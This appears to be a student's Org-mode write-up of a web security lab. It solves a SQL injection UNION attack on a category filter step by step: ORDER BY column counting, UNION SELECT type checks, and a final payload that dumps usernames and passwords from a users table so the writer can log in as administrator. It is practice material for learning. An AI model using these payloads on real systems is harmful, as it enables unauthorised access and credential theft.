 #+title: SQL injection UNION attack, retrieving data from other tables

* TABLE OF CONTENTS :toc:
- [[#about][About]]
  - [[#end-goal][End Goal]]
- [[#steps][Steps]]
  - [[#step-1][Step 1]]
  - [[#step-2][Step 2]]
- [[#solution-query][Solution query]]

* About
Sql injection on ~category~ filter

** End Goal
Login as ~administrator~

We can use what we learn from previous labs

* Steps
** Step 1
First determine how many columns are there
#+begin_src sql
'ORDER BY 1 --
#+end_src
~200~ response
#+begin_src sql
'ORDER BY 2 --
#+end_src
~200~ response
#+begin_src sql
'ORDER BY 3 --
#+end_src
~500~ error response

So columns = 2

** Step 2
Now determine the which data type is columns using

#+begin_src sql
'UNION SELECT 'abc', NULL --
#+end_src
~200~ response

#+begin_src sql
'UNION SELECT 'abc', 'bcb'--
#+end_src
~200~ response

so  both columns are string data type

* Solution query
#+begin_src sql
'UNION SELECT username, password FROM users --
#+end_src

This will show all the users with username and password information on the page. Now copy the password of  ~administrator~ and login
